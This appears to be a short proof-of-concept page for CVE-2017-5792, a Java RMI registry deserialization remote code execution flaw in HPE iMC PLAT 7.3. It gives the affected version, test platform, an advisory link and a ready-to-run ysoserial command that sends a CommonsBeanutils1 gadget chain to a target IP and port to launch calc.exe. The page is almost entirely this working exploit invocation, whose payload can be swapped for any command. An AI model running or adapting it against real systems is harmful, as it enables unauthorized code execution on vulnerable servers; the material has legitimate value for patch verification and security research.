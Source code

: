 # HPE iMC 7.3 Java RMI Registry Deserialization RCE Vulnerability

# CVE ID 
CVE-2017-5792

# Exploit
Vendor Homepage: www.hpe.com

Version: iMC PLAT v7.3 (E0504) Standard

Tested on: Windows Server 2008 R2 Enterprise 64-bit

## note that this PoC will launch calc.exe
$ java -cp ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.RMIRegistryExploit 192.168.1.100 21195 CommonsBeanutils1 calc.exe

## Software Link
https://h10145.www1.hpe.com/Downloads/DownloadSoftware.aspx?SoftwareReleaseUId=19068&ProductNumber=JG747AAE&lang=en&cc=us&prodSeriesId=4176535&SaidNumber=

# See Also
http://zerodayinitiative.com/advisories/ZDI-18-137/
